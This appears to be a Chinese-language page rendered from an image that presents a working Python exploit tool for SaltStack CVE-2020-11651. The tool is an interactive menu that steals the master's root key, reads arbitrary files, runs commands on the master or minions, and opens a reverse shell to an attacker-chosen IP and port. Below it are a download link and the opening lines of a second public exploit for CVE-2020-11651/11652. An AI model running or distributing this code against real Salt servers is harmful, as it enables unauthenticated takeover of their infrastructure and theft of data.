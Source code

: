 ```python
                return True
            else:
                return False
        except:
            return False


#####################################

master_ip=input('目标IP：')
master_port='4506'
channel = init_minion(master_ip, master_port)
try:
    root_key = check_CVE_2020_11651(channel)
except:
    pass
while master_ip!='':
    print('1.测试POC  2.读取文件  3.执行命令(无回显)  4.反弹shell  5.退出')

    whattype=input('请选择：')
    if whattype=='1':
        check_salt_version()  # 检查salt版本
        check_connection(master_ip, master_port, channel)  # 检查连接
        root_key = check_CVE_2020_11651(channel)  # 读取root key
        print(root_key)
    elif whattype=='2':
        path = input('读取路径：')
        try:
            pwn_read_file(channel, root_key, path, master_ip)  # 读取文件
        except:
            print('文件不存在')
    elif whattype=='3':
        print('1.master   2.minions')
        exectype = input('选择方式：')
        if exectype=='1':
            master_or_minions='master'
        elif exectype=='2':
            master_or_minions = 'minions'
        exec_cmd = input('输入命令：')
        pwn_exec(channel, root_key, exec_cmd, master_or_minions)  # 执行命令
    elif whattype=='4':
        LHOST = input('反弹到IP：')
        LPORT = input('反弹端口：')
        pwn_getshell(channel, root_key, LHOST, LPORT)  # 反弹shell
    elif whattype=='5':
        exit()
```

[下载地址](https://github.com/jasperla/CVE-2020-11651-poc/blob/master/exploit.py)

```python
#!/usr/bin/env python
#
# Exploit for CVE-2020-11651 and CVE-2020-11652
# Written by Jasper Lievisse Adriaanse (https://github.com/jasperla/CVE-2020-11651-poc)
# This exploit is based on this checker script:
# https://github.com/rossengeorgiev/salt-security-backports

from __future__ import absolute_import, print_function, unicode_literals
import argparse
import datetime
import os
import os.path
import sys
```